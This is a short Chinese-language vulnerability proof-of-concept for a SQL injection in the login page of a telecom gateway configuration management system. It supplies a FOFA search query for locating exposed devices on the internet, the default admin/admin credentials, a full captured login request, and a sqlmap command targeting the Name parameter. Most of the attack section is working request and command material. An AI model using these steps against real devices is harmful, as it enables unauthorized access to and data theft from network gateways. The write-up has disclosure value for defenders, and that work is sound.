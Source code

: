 # 电信 网关配置管理系统 login.php SQL注入漏洞

## 漏洞描述

电信网关配置管理系统 前台登陆页面用户名参数存在SQL注入漏洞

## 漏洞影响

```
电信网关配置管理系统
```

## FOFA

```
body="src="img/dl.gif"" && title="系统登录"
```

## 漏洞复现

登录页面如下



![](./images/202202140923586.png)

设备存在默认弱口令 **admin/admin**

![](./images/202202140924953.png)

登录的请求包为

```plain
POST /manager/login.php HTTP/1.1
Host: xxx.xxx.xxx.xxx
Content-Length: 53
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.128 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: PHPSESSID=2lfi6enp5gehalrb92594c80i6
Connection: close

Name=admin&Pass=admin
```

保存为文件使用 Sqlmap工具，注入点为 **Name参数**

```plain
sqlmap -r sql-1.txt -p Name --risk 3
```

![](./images/202202140924004.png)

#